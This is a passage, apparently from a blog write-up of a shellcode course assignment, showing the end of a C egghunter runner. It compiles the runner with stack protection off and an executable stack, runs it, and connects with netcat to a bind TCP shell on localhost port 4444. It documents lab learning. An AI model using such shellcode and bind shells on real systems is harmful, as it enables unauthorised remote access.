 ```c

	ret();

}
```

**Now, the egghunter should spawn the bind tcp shell shellcode which i have created for the first assignment, as we will encounter soon.**

Creating the executable
```bash
gcc shellcode.c -fno-stack-protector -z execstack -o bindegghunter
```

Running the shellcode:
```bash
./bindegghunter
```
Connecting to the infected host

```c
nc -nv 127.0.0.1 4444
```

![bindegghunter](/images/bindegghunter.png)
